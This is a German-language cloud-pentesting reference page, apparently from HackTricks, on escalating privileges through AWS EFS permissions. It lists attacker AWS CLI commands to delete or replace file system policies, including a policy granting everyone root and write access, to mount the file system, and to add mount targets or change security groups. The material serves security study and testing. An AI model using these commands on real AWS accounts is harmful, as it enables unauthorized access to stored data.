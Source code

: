 # AWS - EFS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## EFS

Mehr **Info über EFS** in:

{{#ref}}
../../aws-services/aws-efs-enum.md
{{#endref}}

Beachte, dass du, um ein EFS zu mounten, in einem Subnetz sein musst, in dem das EFS erreichbar ist, und Zugriff darauf haben musst (security groups). Wenn dies der Fall ist, kannst du es standardmäßig immer mounten; ist es jedoch durch IAM policies geschützt, benötigst du die hier genannten zusätzlichen Berechtigungen, um darauf zuzugreifen.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Mit einer dieser Berechtigungen kann ein Angreifer die **Dateisystemrichtlinie ändern**, um **dir Zugriff darauf zu gewähren**, oder sie einfach **löschen**, sodass der **Standardzugriff** gewährt wird.

Um die Richtlinie zu löschen:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Um es zu ändern:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Mit dieser Berechtigung kann ein Angreifer **mount the EFS**. Wenn die write permission nicht standardmäßig allen gewährt wird, die das EFS mounten können, hat er nur **read access**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Die zusätzlichen Berechtigungen `elasticfilesystem:ClientRootAccess` und `elasticfilesystem:ClientWrite` können verwendet werden, um **ins Dateisystem zu schreiben**, nachdem es gemountet wurde, und um auf dieses Dateisystem **als root** zuzugreifen.

**Mögliche Auswirkung:** Indirekter privesc durch Auffinden sensibler Informationen im Dateisystem.

### `elasticfilesystem:CreateMountTarget`

Wenn sich ein Angreifer in einem **Subnetz** befindet, in dem **kein Mount-Target** des EFS existiert, könnte er mit dieser Berechtigung einfach **eines in seinem Subnetz erstellen**:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potential Impact:** Indirekte privesc durch Auffinden sensibler Informationen im Dateisystem.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

In einem Szenario, in dem ein Angreifer feststellt, dass die EFS ein Mount Target in seinem Subnetz hat, aber **keine Sicherheitsgruppe den Datenverkehr zulässt**, könnte er das einfach ändern, indem er die ausgewählten Sicherheitsgruppen modifiziert:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Mögliche Auswirkungen:** Indirektes privesc durch Auffinden sensibler Informationen im Dateisystem.

{{#include ../../../../banners/hacktricks-training.md}}
